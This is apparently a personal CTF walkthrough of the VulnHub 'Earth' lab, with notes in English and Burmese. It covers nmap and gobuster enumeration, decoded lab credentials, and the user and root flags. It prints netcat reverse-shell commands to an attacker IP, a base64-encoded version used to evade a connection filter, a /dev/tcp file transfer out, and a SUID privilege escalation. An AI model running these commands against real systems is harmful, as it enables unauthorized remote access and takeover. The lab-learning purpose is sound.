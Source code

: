 ```yaml
---
{"tags":["getfullshell","vulnhub","walkthrought"],"dg-publish":true,"Auther":"y3kh","permalink":"/ctf/vulnhub/earth-vulnhub/","dgPassFrontmatter":true,"noteIcon":""}
---
```


sudo nmap -sC -sV -oN earth 192.168.90.2                                                                                                                            
Nmap scan report for 192.168.90.2
Host is up (0.0015s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.6 (protocol 2.0)
| ssh-hostkey: 
|   256 5b:2c:3f:dc:8b:76:e9:21:7b:d0:56:24:df:be:e9:a8 (ECDSA)
|_  256 b0:3c:72:3b:72:21:26:ce:3a:84:e8:41:ec:c8:f8:41 (ED25519)
80/tcp  open  http     Apache httpd 2.4.51 ((Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9)
|_http-server-header: Apache/2.4.51 (Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9
|_http-title: Bad Request (400)
443/tcp open  ssl/http Apache httpd 2.4.51 ((Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9)
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-title: Bad Request (400)
| ssl-cert: Subject: commonName=earth.local/stateOrProvinceName=Space
| Subject Alternative Name: DNS:earth.local, DNS:terratest.earth.local
| Not valid before: 2021-10-12T23:26:31
|_Not valid after:  2031-10-10T23:26:31
|_http-server-header: Apache/2.4.51 (Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9
```
sudo nano /etc/hosts
```
##### add this line
192.168.90.2  earth.local  terratest.earth.local
> mozilla > earth.local > sent message > encript code တစ်ခု ကျလာလိမ့်မယ်
>  ဥပမာ : 050c53070e470401097e79
```
gobuster dir -u http://earth.local/ -w /usr/share/wordlists/dirb/common.txt 
```

	  starting gobuster in directory enumeration mode
	/admin                (Status: 301) [Size: 0] [--> /admin/]
	/cgi-bin/             (Status: 403) [Size: 199]
	Progress: 4614 / 4615 (99.98%)
	Finished

earth.local/admin
https://terratest.earth.local/
> try view page source nothing found
```
gobuster dir -u https://terratest.earth.local/ -k -w /usr/share/wordlists/dirb/common.txt
```
*https ဖြစ်လို့ -k သုံးရတယ်*
/index.html           (Status: 200) [Size: 26]
/robots.txt            (Status: 200) [Size: 26]

>mozilla
>https://terratest.earth.local/testingnotes.txt
>https://terratest.earth.local/testdata.txt
>earth.localhost
*cyberchief use*
![earth-cyberchief.png|400](/img/user/Images%20All/earth-cyberchief.png)

user : terra
pass : earthclimatechangebad4humans
*run command*
whoami
ls /var/earth_web 
cat /var/earth_web/user_flag.txt
**flag : [user_flag_3353b67d6437f07ba7d34afd7d2fc27d] 

---
### rever shell simple method 
```
host machine  nc -lvnp 4444
target machine မှာ
nc -e /bin/bash 192.168.200.5 4444
**it will not woking coz 
Remote connections are forbidden
use encode version
reverse shell online base 64 change ပါ မယ် 
echo 'nc -e /bin/bash 192.168.200.5 4444' | base64
bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMjAwLjcgNDQ0NAo
target machine မှာ ပြန်ပြီး ဒီဟာကို ရိုက်မယ်
echo 'bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMjAwLjcgNDQ0NAo' | base64 -d  | bash


```


```
python3 -c 'import pty; pty.spawn("/bin/bash")'
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
export TERM=xterm-256color
alias ll='ls -lsaht --color=auto'
Ctrl + Z [Background Process]
stty raw -echo ; fg ; reset
stty columns 200 rows 200
```
### privilege Escalation

find / -perm -u=s 2>/dev/null
file /usr/bin/reset_root
nc -lvnp 3333 > reset_root
cat /usr/bin/reset_root > /dev/tcp/192.168.200.5/3333
apt install ltrace 
ltrace ./reset_root
touch kHgTFI5G
touch Zw7bV9U5
touch kcM0Wewe
reset_root
su root
password : Earth
flag : root_flag_b0da9554d29db2117b02aa8b66ec492e




<iframe width="1280" height="720" src="https://www.youtube.com/embed/e9de7AK0i2s?si=A1mMNAb9oeidOksa" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>
